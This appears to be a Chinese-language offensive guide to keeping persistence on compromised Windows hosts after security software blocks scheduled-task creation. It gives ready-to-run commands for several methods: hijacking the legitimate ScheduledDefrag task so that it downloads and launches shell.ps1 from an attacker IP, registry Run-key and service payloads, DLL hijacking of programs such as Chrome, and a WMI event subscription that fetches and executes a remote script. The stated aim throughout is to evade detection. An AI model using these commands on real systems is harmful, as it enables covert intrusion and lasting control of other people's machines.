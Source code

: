 ### 计划任务被拦截了怎么办

**1. 放弃创建，寻找修改或利用已有的计划任务**

安全软件通常只监控**创建新任务**的行为，但可能不会对**修改已有任务**的行为进行强拦截，尤其是那些系统或合法程序创建的计划任务

- **攻击原理**：找到一个不显眼的、定期执行的、且权限足够高的系统任务，然后修改它的执行命令，让它在执行原有任务的同时，也执行你的恶意代码

- **操作步骤**：

  1. **信息收集**：首先，使用 `schtasks /query /fo list /v` 命令来列出所有已有的计划任务。你需要关注以下几点：

     - **任务名称**：寻找那些看起来合法、不引人注意的任务，例如与系统更新、日志清理相关的任务
     - **执行账户**：寻找那些以 `SYSTEM` 或 `Administrator` 权限运行的任务
     - **触发器**：了解任务的触发频率（例如每天、每周）

  2. **修改任务**：使用 `schtasks /change` 命令来修改任务的执行命令

     ```powershell
     # 示例：修改一个名为“Microsoft\Windows\Defrag\ScheduledDefrag”的合法任务
     schtasks /change /tn "Microsoft\Windows\Defrag\ScheduledDefrag" /tr "powershell.exe -c \"iwr http://<攻击机IP>/shell.ps1 -OutFile C:\temp\shell.ps1; Start-Process C:\temp\shell.ps1\""
     ```

  - **优点**：这种方法利用了合法任务的“信任”，行为更加隐蔽，不容易被安全软件识别为恶意创建行为

**2. 利用启动项或服务进行权限维持**

如果计划任务的路走不通，启动项和服务是另一个值得尝试的切入点

- **利用注册表启动项**：许多应用程序都通过注册表键值来实现开机自启动。安全软件可能会监控这些键值的创建，但你可以尝试修改一些不那么敏感的键值

  - **常见路径**：

    - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
    - `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`

  - **操作步骤**：

    ```powershell
    # 在注册表Run键中添加一个启动项
    reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "MyUpdater" /t REG_SZ /d "C:\Users\Public\payload.exe" /f
    ```

  - **缺点**：这种方法非常常见，很容易被安全软件拦截。你需要使用更隐蔽的键值或利用无文件方式

- **利用服务**：Windows 服务可以以高权限运行，并且可以配置为开机自启动

  - **操作步骤**：

    ```powershell
    # 创建一个新的服务
    sc create MyService binPath= "C:\Users\Public\payload.exe" start= auto
    # 启动服务
    sc start MyService
    ```

  - **缺点**：创建新服务同样是一个非常敏感的操作，几乎所有的安全软件都会进行拦截

**3. 使用无文件和内存驻留技术**

这是在高级防护环境下最有效的权限维持方法，因为它完全绕过了文件系统和注册表的监控

- **DLL 劫持**：找到一个经常被合法程序调用的、但路径可写的 DLL 文件，将你的恶意代码注入到这个 DLL 中

  - **操作步骤**：
    1. 找到一个合法程序（例如 `c:\Program Files\Google\Chrome\Application\chrome.exe`）启动时会去加载的 DLL
    2. 将你自己的恶意 DLL 文件命名为相同的名字，并放置在程序会优先寻找的路径中。
    3. 当用户启动这个程序时，你的恶意 DLL 就会被加载并执行，从而实现权限维持
  - **优点**：这种方法非常隐蔽，因为执行的是合法程序，绕过了许多行为监控

- **WMI/COM 持久化**：利用 Windows Management Instrumentation (WMI) 或 Component Object Model (COM) 实现持久化

  - **原理**：你可以创建一个 WMI 事件订阅，当某个特定事件发生时（例如系统启动），自动触发执行你的恶意代码

  - **操作步骤**：

    ```powershell
    # 创建一个WMI事件过滤器，当系统启动时触发
    $filter = New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property @{QueryLanguage="WQL"; Query="SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_Process' AND TargetInstance.Name = 'notepad.exe'"} -ErrorAction Stop
    # 创建一个WMI事件消费者，执行你的恶意代码
    $consumer = New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property @{Name="myconsumer"; CommandLineTemplate="powershell.exe -c 'iwr http://<攻击机IP>/shell.ps1|iex'"} -ErrorAction Stop
    # 将过滤器和消费者绑定
    $binding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property @{Filter=$filter; Consumer=$consumer} -ErrorAction Stop
    ```

  - **优点**：这是最高级的无文件持久化技术，非常难以被检测
